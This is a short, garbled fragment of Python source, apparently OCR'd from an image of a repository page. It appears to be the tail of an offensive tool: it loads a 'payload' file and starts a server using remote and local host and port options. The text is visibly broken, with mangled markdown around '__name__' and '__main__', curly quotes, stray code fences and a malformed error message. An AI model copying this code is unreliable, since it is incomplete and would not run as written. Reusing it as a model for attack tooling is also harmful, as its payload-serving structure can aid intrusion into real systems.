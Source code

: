 auth = options.auth
filename = options.file
verbose = options.verbose
if os.path.exists(filename) == False:
    print("\033[1;31;m[-]\033[0m Where you module? ")
    exit(0)
payload = open(filename, "rb").read()
runserver(options.rhost, options.rport, options.lhost, options.lport) 
``` `if **name** == ‘**main**’:

print(LOGO)

main()` 
```